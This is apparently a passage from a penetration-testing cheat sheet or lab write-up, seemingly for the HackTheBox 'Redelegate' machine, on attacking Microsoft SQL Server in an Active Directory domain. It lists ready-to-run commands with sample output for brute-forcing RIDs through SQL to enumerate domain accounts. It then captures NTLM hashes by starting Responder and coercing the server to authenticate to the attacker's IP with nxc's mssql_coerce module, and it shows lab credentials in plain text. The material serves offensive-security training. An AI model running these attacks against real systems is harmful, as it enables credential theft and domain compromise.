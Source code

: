 ```console
Get-SqlServer-Enum-WinAccounts -SQLServerInstance '<TARGET>' -SqlUser '<USER>' -SqlPass '<PASSWORD>' –FuzzNum 10000
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> Get-SqlServer-Enum-WinAccounts -SQLServerInstance "10.129.234.50" -SqlUser 'SQLGuest' -SqlPass 'zDPBpaF4FywlqIv11vii' –FuzzNum 10000
[*] Attempting to authenticate to 10.129.234.50 as the login SQLGuest...
[*] Connected.
[*] Enumerating domain...
[*] Domain found: REDELEGATE
[*] Enumerating domain SID...
[*] Domain SID found: 010500000000000515000000A185DEEFB22433798D8E847A
[*] Brute forcing 10000 RIDs...
[*] - WIN-Q13O908QBPG\Administrator
[*] - REDELEGATE\Guest
[*] - REDELEGATE\krbtgt
[*] - REDELEGATE\Domain Guests
---[SNIP]---
[*] 34 domain accounts / groups were found.

name
----
REDELEGATE\Allowed RODC Password Replication Group
REDELEGATE\Cert Publishers
REDELEGATE\Christine.Flanders
---[SNIP]---
```

<small>*Ref: [Get-SqlServer-Enum-WinAccounts.psm1](https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Get-SqlServer-Enum-WinAccounts.psm1)*</small>

{{< /tabcontent >}}

---

### Abuse #1: Steal NTLM hash

#### 1. Start a Listener

```console
sudo responder -I tun0
```

#### 2. Coercing Authentication

{{< tab set3 tab1 >}}nxc{{< /tab >}}
{{< tab set3 tab2 >}}SQL{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth -M mssql_coerce -o L=<LOCAL_IP>
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth -M mssql_coerce -o L=10.10.14.56
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
MSSQL_CO... 10.129.254.242  1433   DC               [*] Commands executed successfully, check the listener for results
```
